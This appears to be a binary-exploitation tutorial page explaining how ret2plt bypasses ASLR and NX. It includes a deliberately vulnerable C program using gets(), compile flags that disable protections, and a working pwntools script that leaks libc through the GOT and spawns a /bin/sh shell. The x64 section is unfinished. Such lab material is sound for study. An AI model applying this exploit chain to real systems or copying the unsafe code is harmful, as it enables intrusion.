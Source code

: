 ```yaml
---
description: 09/20/2023
cover: https://art.pixilart.com/056b06fa01ec6ec.gif
coverY: 9
---
```


# ☠ Bypassing Address Space Layout Randomization & NX (ret2plt)

This will feature x86 and x64-based exploitation.

## Introduction

**Need a refresher on ASLR?**

{% content-ref url="memory-protections/address-space-layout-randomization-aslr.md" %}
[address-space-layout-randomization-aslr.md](memory-protections/address-space-layout-randomization-aslr.md)
{% endcontent-ref %}

<mark style="color:yellow;">Address Space Layout Randomization</mark>, or <mark style="color:yellow;">ASLR</mark> is very similar to PIE.&#x20;

However, it is <mark style="color:yellow;">implemented at the kernel level of the underlying operating system</mark>.

<mark style="color:yellow;">The base address of the string and the functions are going to be randomized with each execution of the binary</mark>.

With <mark style="color:green;">ASLR enabled</mark>, you can visualize this by running `ldd` against your target binary a few times:

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### How Does ret2plt Work?

Here, we will be taking advantage of the <mark style="color:yellow;">**ret2plt**</mark> technique that <mark style="color:yellow;">involves calling</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts@plt`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">and passing the GOT entry of</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">as a parameter</mark>.

This will cause <mark style="color:yellow;">`puts()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">to print out its own address in</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`libc`</mark>.

* How cool is that?!

This will allow us to leak the ASLR base. Essentially, we need to craft a payload that leaks the real address of `puts()`.&#x20;

As we learned in [overwriting-global-offset-table-got.md](overwriting-global-offset-table-got.md "mention"), <mark style="color:yellow;">we know that calling the PLT entry of the function is the same as calling the function itself</mark>. If we point the parameter to the GOT entry, it will print out it's location/address.

This is because C string arguments for functions take pointers of where the string can be found.

Ultimately, pointing it to the GOT entry will print it out.

**NOTE:** <mark style="color:yellow;">It is important to note that ASLR must be</mark> <mark style="color:green;">enabled</mark> <mark style="color:yellow;">and PIE MUST be</mark> <mark style="color:red;">disabled</mark> <mark style="color:yellow;">in order to ensure that ret2plt works correctly</mark>. Also, this will allow you to bypass NX as well.&#x20;

<mark style="color:green;">**Enable**</mark>** ASLR if you have it disabled from previous challenges:**

```
sudo echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

### References

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass" %}

{% embed url="https://sharkmoos.medium.com/binary-exploitation-exploiting-ret2libc-328eefb0421b" %}

## Exploitation (x86)

### Source Code

`vuln-32.c`:

```c
#include <stdio.h>

void vuln() 
{
    puts("Can you reach me?!");

    char buffer[20];
    gets(buffer);
}

int main() 
{
    vuln();

    return 0;
}
```

### Compilation

```
gcc vuln.c -o vuln -no-pie -fno-stack-protector -m32
```

### Enumeration

`checksec`:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

* 32-bit executable
* NX Enabled
* No PIE (<mark style="color:yellow;">important</mark>)
* Remember, ASLR should be enabled

`file`:

{% code overflow="wrap" %}
```
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a0f25810be2712c4f32922a70c705efd5d984665, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

### Exploit Code

Note: <mark style="color:yellow;">be sure to read the comments embedded in the exploit code to further understand how the exploit is behaving</mark>.

`exploit.py`:

```python
from pwn import *

# Basic pwn template setup
elf = context.binary = ELF('./vuln')
libc = elf.libc
p = process()

# We need a payload that will leak the actual address of puts()
# Remember, calling the PLT entry of the function is the same as calling the function itself
p.recvline()    # Receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],    # Main??? This is acting as the return address. However, if we set it to something random, it will leak the libc base and crash but if we were to call main() again, we would simply restart the binary.
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))  # The GOT entry will not be the only thing printed. puts() will be. It will be printed as a null-byte. This means it will keep on printing GOT addresses, but we only care about the first one. So, we will grab the first 4 bytes and utilize u32() to interpret them as a little-endian number.
p.recvlines(2) # This means we will ignore the rest of the values as well as the puts() output from calling main() again.

# Next, we will calculate the libc base and perform a ret2libc attack
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC Base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'], # Call system() from libc
    libc.sym['exit'], # Call exit() from libc to exit gracefully. exit() is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00')) # Search for the string "/bin/sh" in libc and append it as an argument to system() found in libc.
)

p.sendline(payload) # Send payload
p.interactive() # Obtain interactive shell
```

## Exploitation (x64)

Here, we can utilize a similar methodology, however since we are working with x64, we will need to utilize ROP gadgets to inject our data into the registers.

Coming soon.
